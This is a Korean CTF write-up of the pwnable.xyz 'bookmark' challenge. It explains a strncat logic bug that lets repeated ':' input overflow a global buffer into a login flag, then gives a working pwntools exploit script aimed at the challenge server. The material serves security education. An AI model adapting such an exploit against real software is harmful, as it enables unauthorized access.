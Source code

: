 ```yaml
---
title: "[pwnable.xyz]bookmark"
date: 2020-1-31
tags: [pwnable.xyz]
categories: [pwnable.xyz]
---
```


랭킹 1페이지 찍엇당..

우선 바이너리를 보호기법 다 걸려있다.

```
[*] '/vagrant/ctfs/challenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

메인함수 처음 시작에 `qword_202300` 라는 전역변수에 랜덤값을 넣어준다.

```c
int init_login()
{
  int fd; // [rsp+Ch] [rbp-4h]

  fd = open("/dev/urandom", 0);
  if ( fd == -1 )
    exit(1);
  read(fd, &qword_202300, 8uLL);
  return close(fd);
}
```

1번 메뉴에서는 랜덤값을 저장한 변수와 입력한 값을 비교해서 `dword_202308` 변수에 1을 넣어주는데 이를 통해 4번 메뉴에서 win함수를 호출시킬 수 있다. 아마 이 문제의 핵심은 `qword_202300` 를 알아내거나 `dword_202308` 를 0이 아닌 아무 값으로 덮어주면 되는 것이다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 savedregs; // [rsp+10h] [rbp+0h]

  setup();
  init_login();
  puts("Web bookmarks.");
  while ( 1 )
  {
    print_menu();
    read_long();
    switch ( &savedregs )
    {
      case 0u:
        return 0;
      case 1u:
        printf("Password: ", argv);
        if ( qword_202300 == read_long() )
          dword_202308 = 1;
        break;
      case 2u:
        create_url();
        break;
      case 3u:
        argv = bm;
        printf("url: %s\n", bm);
        break;
      case 4u:
        if ( dword_202308 )
        {
          puts("Not Implemented.");
          puts("But here is a reward.");
          win();
        }
        break;
      default:
        puts("Invalid");
        break;
    }
  }
}
```

여기서 bm이라는 전역변수에 값을 써줄 수 있는 곳이다.

```c
int create_url()
{
  void *buf; // ST18_8
  signed int v2; // [rsp+Ch] [rbp-14h]
  char *v3; // [rsp+10h] [rbp-10h]

  printf("Secure or insecure: ");
  read(0, bm, 9uLL);
  if ( strncmp(bm, "http", 4uLL) )
    return puts("Not a valid URL.");
  if ( byte_202204 == 's' )
    v3 = &unk_202205;
  else
    v3 = &byte_202204;
  while ( *v3 == ':' || *v3 == '/' )
    ++v3;
  *v3 = 0;
  printf("Size of url: ", "http");
  v2 = read_long();
  if ( v2 < 0 || v2 > 127 )
    return puts("Too large.");
  buf = malloc(v2);
  read(0, buf, v2);
  return strncat(bm, buf, 0x100uLL);
}
```

`create_url` 함수에서 로직 버그가 터진다. 만약 여기 bm에 strncat으로 이어붙이는데 계속 이어붙일 수 잇다면 bm과 `dword_202308` 의 거리는 264이기 때문에 덮을 수 있을거다.

```
bm = 0x0000000000202200
byte_202204 = 0x0000000000202204
unk_202205 = 0x0000000000202205
qword_202300 = 0x0000000000202300
dword_202308 0x0000000000202308
```

여기서 취약점은 *v3가 ':' 이거나 '/' 이면 ++v3; 해주기 때문에 취약점이 발생한다. 왜냐하면 strncat은 널바이트를 자르고 그 이후로  붙여주기 때문에 *v3 = 0이 안되도록 하면 된다. 그로 인해 ':'나 '/'을 계속 넣어주고 다시 create_url함수를 실행시켜서 문자열을 계속 붙여주면 널바이트부터 이어서 붙여지기때문에 한 3번만 하면  `dword_202308` 변수를 덮을 수 있다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
# p = process('./challenge')
p = remote('svc.pwnable.xyz',30021)
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

def login(passwd):
	sla('>','1')
	sa(':',passwd)

def create_url(url,size,data):
	sla('>','2')
	sa(':',url)
	sa(':',str(size))
	p.send(data)

def print_url():
	sla('>','3')

def save_url(): # win()
	sla('>','4')

def quit():
	sla('>','0')

create_url('https',127,':'*127)
create_url('https',127,':'*127)
create_url('https',127,':'*127)
#login(str(0x3a3a3a3a3a3a3a3a))
save_url()

p.interactive()
```